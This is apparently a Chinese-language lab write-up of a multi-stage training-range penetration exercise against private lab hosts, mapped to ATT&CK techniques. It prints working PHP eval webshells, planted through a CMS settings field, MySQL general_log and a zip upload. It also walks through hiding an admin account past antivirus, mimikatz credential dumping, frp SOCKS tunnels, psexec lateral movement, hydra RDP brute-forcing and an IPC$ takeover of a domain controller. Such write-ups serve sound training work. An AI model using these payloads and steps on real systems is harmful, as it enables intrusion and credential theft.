



# 信息安全渗透赛

[TOC]

## 一、靶场介绍

#### 1.场景介绍

近年来，随着网络安全受到全球广泛关注，各类网络攻防联赛也如雨后春笋般在全国展开，逐步形成培养网安人才的一大优势。让越来越多的网安人才，在参与安全竞赛过程中，得到网络攻防能力的锤炼，增强人员的网安技能，提升个人及团队的综合实力，并在实战中完成行业网络安全人才的选拔。进而实现培养网安人才、护航网络安全的责任使命。

#### 2.场景拓扑


#### 3.攻击路线


#### 4.知识点

后台弱口令

远程代码执行

mysql日志写shell

文件上传漏洞

psexec横向移动

hydra RDP爆破

IPC$入侵

#### 5.漏洞编号

CNVD-2020-03899 

CVE-2020-25790

#### 6.Att&ck框架指标/Shield防御指标

T1595 - 主动扫描

T1203 - 利用客户端漏洞获取执行权限

T1068 - 利用漏洞进行权限升级

T1110 - 暴力破解

T1090 - 连接代理

T1570 - 工具横向移动

T1210 - 利用远程服务

T1592 - 收集目标主机信息

T1589 - 收集目标身份信息

T1590 - 收集目标网络信息

#### 7.Engage攻防模型

EAC0006 - 应用多样性

EAC0021 - 攻击向量迁移

EAC0002 - 网络监控

EAC0004 - 网络分析

EAC0003 - 系统活动监控

EAC0014 - 软件操作

## 二、靶场解题（Write up）

#### 阶段一：Web

##### 任务1：弱口令登录后台

已知目标站点`172.16.1.100`，Win10攻击机访问：


确定是行云海cms，访问后台地址`http://172.16.1.100/xyhai.php`



使用弱口令`admin/123456`成功登录后台：


##### 任务2：漏洞利用Getshell（T1203 - 利用客户端漏洞获取执行权限）

点击`系统设置`>>`网站设置`，在`站点描述`内插入一句话木马`<?=eval($_POST['pass']);?>`后点击`保存`：


保存成功后启动桌面的蚁剑工具：


右键空白处点击`添加数据`，shell信息如下：

```
URL地址：http://172.16.1.100/App/Runtime/Data/config/site.php

连接密码：pass
```


点击`添加`进行添加，双击URL进行文件管理窗口，查找并发现flag：


```
flag{3835-58B6-3FF2-341D-7E69-11D6-4539-C916}
```

#### 阶段二：DB

##### 任务3：主机信息收集（T1595 - 主动扫描）

上传s扫描器，路径如下：


通过拖拽的方式上传：


在s扫描器所在目录下右键打开终端，执行命令进行探测：

```
s.exe tcp 172.16.1.0/24 22,80,135,445,3389,8080 >> 1.txt
```

刷新s扫描器所在目录后查看`1.txt`文件：


文件结尾显示扫描时长，可判断扫描是否结束：


快捷键`Ctrl+F`搜索关键字`Open`，发现存活主机：


对存活主机进行端口探测：

```
s.exe tcp 172.16.1.200 1-5000 >> 2.txt
```


发现主机开放22、80、3306端口，疑似部署mysql服务的linux主机：


查看路由表，发现其他网段：

```
route print
```


##### 任务4：搭建代理隧道（T1090 - 连接代理、）

进入`C:\Users\Administrator\Desktop\工具\浏览代理\frp\frp_0.37.0_windows_amd64\frp_0.37.0_windows_amd64`目录，修改`frpc.ini`文件为如下内容：

```
[common]
server_addr = 10.10.10.10
server_port = 7000

[ssh]
type = tcp
remote_port = 9998
plugin = socks5
```

将该目录下的`frpc.exe`文件和`frpc.ini`文件上传至蚁剑：


`C:\Users\Administrator\Desktop\工具\浏览代理\frp\frp_0.37.0_windows_amd64\frp_0.37.0_windows_amd64`目录下打开命令行，输入命令启动代理服务端：

```
frps.exe -c frps.ini
```


蚁剑中`frpc.exe`文件所在目录下右键打开终端，执行命令启动代理客户端：

```
frpc.exe -c frpc.ini
```


后续任务中若出现访问卡顿，请检查代理流量是否正常，在`frps.exe`的命令行中使用快捷键`Ctrl+C`结束代理服务端，再按`↑`键并回车启动代理服务端。

##### 任务5：数据库信息收集（T1090 - 连接代理）

登录`Kali攻击机`，右键打开终端，修改代理规则：

```
vi /etc/proxychains4.conf
```


尝试使用弱口令`root/123456`连接：

```
proxychains4 mysql -uroot -h172.16.1.200 -p3306 -p

123456
```

连接成功：


执行命令查看数据库信息：

```
show databases;

use test;                              

show tables;
```


查看表信息：

```
show columns from youknow;

select flag from youknow;
```


```
flag{745F-D442-B0D5-B5ED-D881-5DC5-0AB0-960F}
```

##### 任务6：数据库漏洞利用（T1203 - 利用客户端漏洞获取执行权限）

`Win10攻击机`中建立全局代理，启动`Proxifier`：


双击软件图标：



新增代理服务器：


代理信息如下：


若提示未添加则再添加一次。

目标开放80端口，尝试访问：


提示进行提权操作，右键查看网页源代码，发现网站路径：


回到`Kali攻击机`尝试提权，查看是否可以读写文件：

```
SHOW VARIABLES LIKE "secure_file_priv";
```


结果为`NULL`，说明不能读写文件。

查看操作日志是否开启：

```
show variables like 'general_log%';
```


显示没有开启，发现网站日志路径。

将日志开启并将一句话木马写入网站文件：

```
set global general_log = 'ON';       

set global general_log_file='/var/www/html/index.php'; 

select '<?php @eval($_POST["pass"]);?>';
```


回到`Win10攻击机`，使用蚁剑连接：


成功getshell：


#### 阶段三：Server

##### 任务7：内网主机GetShell（T1595 - 主动扫描）

使用s扫描器探测`192.168.2.0/24`网络：

```
s.exe tcp 192.168.2.0/24 22,80,135,3389,445,8080
```


发现存活主机开放80端口，使用火狐浏览器尝试访问：


判断网站为`Typesetter CMS`，点击`login`：


弱口令`admin/admin`登录成功：


上传文件：


在`Win10攻击机`桌面新建`shell.php`文件，内容为`<?php @eval($_POST['cmd']);?>`：


将`shell.php`文件压缩为`shell.zip`文件：


双击`file`，右键空白处点击`Upload files`：


将shell.zip通过拖拽的方式上传：


上传成功：


解压：


蚁剑连接，shell信息如下：

```
URL地址：http://192.168.2.100/data/_uploaded/file/shell/shell.php

连接密码：cmd
```


添加成功后双击URL，发现flag：


```
flag{A9CF-CBAF-76F0-7C31-F3AA-AE2C-D6E6-C2BD}
```

##### 任务8：信息收集（T1592 - 收集目标主机信息、T1210 - 利用远程服务）

在新增的shell中进入终端，查看权限：


查询有无杀软：

```
tasklist /svc
```


进入杀软匹配工具目录，使用谷歌浏览器打开工具：


将查询结果拷贝到窗口，点击`查询`：


主机存在火绒安全软件，尝试绕过：


蚁剑中执行命令创建隐藏用户：

```
cd C:\Windows\System32

copy net1.exe net2.txt

net2.txt user hacker$ admin /add  //添加隐藏用户

net2.txt localgroup administrators hacker$ /add   //加入到管理员组中
```


打开远程桌面：


远程登录信息如下：

```
远程地址：192.168.2.100

登录信息：hacker$/admin
```

提示已有用户登录，点击`是`后等待30秒登录成功：


登录成功后退出`火绒安全软件`：


上传密码抓取工具，工具路径如下：


复制粘贴至桌面：


以管理员权限运行：


抓取密码：

```
privilege::debug

sekurlsa::logonpasswords full
```


#### 阶段四：Client

##### 任务9：横向移动（T1570 - 工具横向移动）

断开远程桌面连接，尝试横向移动到主机`192.168.2.200`，进入工具目录，路径如下：


在该目录下打开命令行，执行命令（若出现报错请再试一次）：

```
psexec.exe Administrator:good123@@192.168.2.200
```


获取到目标会话，查看权限：


发现flag：


```
flag{7117-9590-F408-7857-68D5-70AA-F442-BD57}
```

查看路由信息：


##### 任务10：内网代理（T1090 - 连接代理）

修改`C:\Users\Administrator\Desktop\工具\浏览代理\frp\frp_0.37.0_windows_amd64\frp_0.37.0_windows_amd64`目录下的`frpc.ini`文件为如下内容：

```
[common]
server_addr = 172.16.1.100
server_port = 7000

[ssh]
type = tcp
remote_port = 9998
plugin = socks5
```

将`frpc.exe`文件和`fprc.ini`文件复制一份到桌面：


将s扫描器文件复制一份到桌面：


启动上传工具，路径如下：


在该目录下打开命令行，执行命令：

```
smbclient.exe Administrator:good123@@192.168.2.200

use c$

put C:\Users\Administrator\Desktop\s.exe

put C:\Users\Administrator\Desktop\frpc.exe

put C:\Users\Administrator\Desktop\frpc.ini
```


`psexec.exe`运行的命令行中执行命令进行探测：

```
c:\s.exe tcp 192.168.3.0/24 135,445,3389,22,80,3306,8080 >> hosts.txt
```


结果显示存在存活主机：


将`C:\Users\Administrator\Desktop\工具\浏览代理\frp\frp_0.37.0_windows_amd64\frp_0.37.0_windows_amd64`目录下的`frps.exe`文件和`frps.ini`文件上传至蚁剑的`172.16.1.100`主机目录下：


蚁剑中在`frps.exe`文件的目录下打开终端启动代理服务端：

```
frps.exe -c frps.ini
```


`psexec.exe`运行的命令行中执行命令启动代理客户端：

```
c:\frpc.exe -c c:\frpc.ini
```


隧道建立成功。

#### 阶段五：User

##### 任务11：密码爆破（T1110 - 暴力破解）

登录`Kali攻击机`，修改代理地址：


进入`/root/Desktop/Tools/fuzzDicts/passwordDict`目录，右键打开终端，执行命令爆破：

```
proxychains4 hydra -l Administrator -P top500.txt rdp://192.168.3.100 -V
```


获取到密码信息，回到`Win10攻击机`，新增代理服务器：


代理信息如下：


设置代理规则：


启动远程桌面，远程信息如下：

```
远程地址：192.168.3.100

登录账户：Administrator

登录密码：admin@...123
```

提示已有用户登录，点击`是`后等待30秒：


登录成功后获取flag：


```
flag{0863-1D88-2FFB-CF7C-9078-7DC6-AA20-428E}
```

#### 阶段六：DC

##### 任务12：域内信息收集（T1589 - 收集目标身份信息、T1590 - 收集目标网络信息）

进行信息收集：


发现存在域：


抓取密码，上传mimikatz工具：


上传成功后以管理员权限启动：



```
privilege::debug

sekurlsa::logonpasswords full
```

发现域用户密码信息：


断开远程桌面，切换域用户登录：


远程信息：

```
远程地址：192.168.3.100

登录账户：ZSZ\Administrator

登录密码：mygod.dc123
```

登录成功后打开命令行，定位域控：


定位域管用户：


确认域管信息：

```
主机地址：192.168.3.200

账户名称：ZSZ\Administrator 

登录密码：mygod.dc123
```

##### 任务13：PTH到域控（T1068 - 利用漏洞进行权限升级、T1570 - 工具横向移动）

查看本地开启的共享：


建立IPC连接：

```
net use \\192.168.3.200\ipc$ "mygod.dc123" /user:"Administrator"
```


将目标C盘映射到本地H盘：

```
net use h: \\192.168.3.200\c$
```


打开文件夹，可以看到挂载了目标的磁盘：


发现flag：


```
flag{B719-1F1D-4CE7-E019-2E6B-EDAC-CB35-87FB}
```

回到`Win10攻击机`，进入`C:\Users\Administrator\Desktop\工具\内网渗透\横向移动\PSTOOLS`目录，将`PsExec64.exe`文件上传：


执行命令：

```
cd Desktop

PsExec64.exe -accepteula \\192.168.3.200 -s cmd.exe
```


获取到system权限：

